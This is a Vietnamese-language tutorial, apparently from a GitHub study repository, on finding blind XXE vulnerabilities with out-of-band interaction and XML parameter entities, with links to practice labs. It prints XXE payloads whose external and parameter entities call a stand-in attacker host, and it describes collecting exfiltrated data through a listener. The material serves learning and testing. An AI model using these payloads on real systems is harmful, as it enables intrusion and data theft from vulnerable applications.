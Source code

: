 # Overview:

Lỗ hổng XXE mù (Blind XXE) xảy ra khi ứng dụng bị tổn thương bởi XXE injection nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào trong phản hồi. Điều này làm cho việc khai thác blind XXE khó khăn hơn so với các lỗ hổng XXE thông thường.

Để tìm và khai thác các lỗ hổng blind XXE, bạn có thể sử dụng các phương pháp sau:

1. Kích hoạt tương tác mạng ngoài phạm vi: Bạn có thể tạo ra các yêu cầu mạng tới các hệ thống bên ngoài mà ứng dụng có thể truy cập. Đồng thời, bạn cần tạo ra một cơ chế để thu thập thông tin hoặc dữ liệu nhạy cảm từ các yêu cầu này. Ví dụ, bạn có thể thiết lập một máy chủ nghe (listener) để nhận dữ liệu exfiltrated từ ứng dụng.

2. Kích hoạt lỗi phân tích XML để thu thập thông tin nhạy cảm: Bạn có thể thử gây ra lỗi phân tích XML bằng cách đưa vào các dữ liệu không hợp lệ hoặc gây ra xung đột trong cú pháp XML. Sau đó, bạn sẽ kiểm tra các thông báo lỗi hoặc thông báo phản hồi từ ứng dụng để tìm thông tin nhạy cảm như đường dẫn tệp, tên người dùng, hoặc thông tin hệ thống khác.

# Phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST):

Bạn có thể phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST) giống như cho các cuộc tấn công XXE SSRF, nhưng kích hoạt tương tác mạng ngoài phạm vi đến một hệ thống mà bạn kiểm soát. Ví dụ, bạn sẽ xác định một thực thể bên ngoài như sau:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Thông qua việc xác định thực thể bên ngoài này, bạn có thể tạo ra các yêu cầu HTTP hoặc DNS đến hệ thống mà bạn kiểm soát. Bằng cách theo dõi các yêu cầu đến hệ thống của bạn, bạn có thể xác định thông tin nhạy cảm hoặc thu thập dữ liệu từ ứng dụng mục tiêu.

Thực hành [ở đây](https://github.com/Llam-a/XML-external-entity-XXE-injection/blob/main/Exercises/Lab%3A%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities.md).

Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do việc kiểm tra đầu vào bởi ứng dụng hoặc việc tăng cường bảo mật của trình phân tích cú pháp XML đang được sử dụng. Trong tình huống này, bạn có thể sử dụng thực thể XML thông số thay thế. Thực thể XML thông số là một loại đặc biệt của thực thể XML chỉ có thể được tham chiếu ở nơi khác trong DTD. Đối với mục đích hiện tại, bạn chỉ cần biết hai điều. Thứ nhất, khai báo một thực thể XML thông số bao gồm ký tự phần trăm trước tên enitity:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
và

```xml
%myparameterentity;
```
Điều này có nghĩa là bạn có thể kiểm tra các lỗ hổng XXE mù bằng cách sử dụng phát hiện ngoài dòng thông qua các thực thể XML thông số như sau:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Thực hành [ở đây](https://github.com/Llam-a/XML-external-entity-XXE-injection/blob/main/Exercises/Lab%3A%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities.md).

